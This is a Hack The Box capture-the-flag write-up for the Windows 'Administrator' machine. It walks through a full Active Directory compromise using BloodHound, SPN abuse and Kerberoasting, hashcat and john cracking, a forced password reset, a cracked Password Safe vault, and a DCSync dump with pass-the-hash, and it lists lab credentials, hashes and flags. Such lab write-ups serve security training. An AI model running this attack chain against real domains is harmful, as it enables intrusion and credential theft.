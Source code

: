 # 🧑‍💻 Hack The Box – Administrator

## 📌 Overview
- **Machine Name:** Administrator
- **IP Address(es):** 10.10.11.42
- **Difficulty:** Medium
- **OS:** Windows
- **Tags:** SMB / Active Directory / Kerberoasting / Password Safe / DCSync
- **Date Completed:** 2025.08.30
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -oA nmap/administrator 10.10.11.42
```

```
21/tcp    open  ftp           Microsoft ftpd
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows AD Global Catalog
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Findings:**

* Standard AD services exposed (Kerberos, LDAP, SMB, WinRM).
* FTP service available for further testing.

---

## 📂 SMB & LDAP Enumeration

### Known Credentials

```
User: Olivia
Pass: ichliebedich
```

### SMB Shares
```zsh
nxc smb administrator.htb -u 'Olivia' -p 'ichliebedich' --shares
```

```
IPC$, NETLOGON, SYSVOL → READ
```

* No immediately sensitive files located.

---

## 🧭 BloodHound (Phase 1)

Collected data:

```zsh
rusthound-ce -d administrator.htb -u 'Olivia' -p 'ichliebedich' -o bloodhound --ldap-filter='(objectGuid=*)' -c All
```

**Finding:** Olivia has **GenericAll** over user `michael`.

---

## 🔑 Exploitation – Michael

1. Add SPN to `michael`:

```zsh
bloodyAD -d administrator.htb --host DC.administrator.htb -u 'Olivia' -p 'ichliebedich' set object 'michael' servicePrincipalName -v 'http/test'
```

2. Roast the ticket:

```zsh
nxc ldap DC.administrator.htb -d administrator.htb -u 'Olivia' -p 'ichliebedich' --kerberoasting michael
```

3. Crack:

```zsh
hashcat michaelkrb.hash rockyou.txt
```

* Password recovered: `kali123`

---

## 🧭 BloodHound (Phase 2)

* Michael → has **ForceChangePassword** on `benjamin`.

### Exploit

```zsh
bloodyAD -d administrator.htb -u 'michael' -p 'kali123' --host DC.administrator.htb set password benjamin Test1234.
```

---

## 📂 FTP Loot – Benjamin

Access FTP:

```zsh
ftp 'ftp://benjamin:Test1234.@10.10.11.42'
```

Downloaded: `Backup.psafe3`

### Cracking Safe

```zsh
pwsafe2john Backup.psafe3 > pwsafe.hash
john pwsafe.hash -w rockyou.txt
```

Password: `tekieromucho`

**Extracted credentials:**
- alexander : UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
- emily     : UXLCI5iETUsIBoFVTj8yQFKoHjXmb
- emma      : WwANQWnmJnGV07WQN8bMS7FMAbjNur

---

## 🔑 Exploitation – Emily

```zsh
evil-winrm -i administrator.htb -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

```
*Evil-WinRM* PS C:\Users\emily\Desktop> type user.txt
629866b1f254acd3a8cb232669a022f2
```

* **Result:** User shell obtained.

---

## 🧭 BloodHound (Phase 3)

* Emily → has **GenericWrite** on `ethan`.

### Exploit

```zsh
bloodyAD -d administrator.htb -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' --host DC.administrator.htb set object 'ethan' servicePrincipalName -v 'http/whatever'
nxc ldap DC.administrator.htb -d administrator.htb -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' --kerberoasting ethan
hashcat ethan.hash rockyou.txt
```

* Password recovered: `limpbizkit`

---

## 🧭 BloodHound (Phase 4)

* Ethan → has **DCSync** rights.

### Exploit

```zsh
impacket-secretsdump 'administrator.htb/ethan:limpbizkit@DC.administrator.htb'
```

Extracted Administrator hash:

```
Administrator : 3dc553ce4b9fd20bd016e098d2d2fd2e
```

### Shell

```zsh
evil-winrm -i administrator.htb -u Administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
a1685e5c6f5672a76b1395476440dc43
```

* **Result:** Full domain compromise.

---

## 🏁 Flags

* **User.txt:** `629866b1f254acd3a8cb232669a022f2`
* **Root.txt:** `a1685e5c6f5672a76b1395476440dc43`

---

## 🧠 Lessons Learned

* **Technical:**

  * GenericAll and GenericWrite can be leveraged for Kerberoasting and SPN abuse.
  * Backup files may contain critical credentials.
  * DCSync is the most direct route to Domain Admin.

* **Personal:**

  * Always test credentials across multiple services (FTP, SMB, WinRM).
  * When BloodHound results seem incomplete, rerun with alternative collectors.
  * Password vaults should be assumed sensitive and cracked if possible.

* **Reusable Techniques:**

  * SPN manipulation → Kerberoasting → password cracking.
  * ForceChangePassword for lateral movement.
  * DCSync to dump domain secrets and escalate to Administrator.
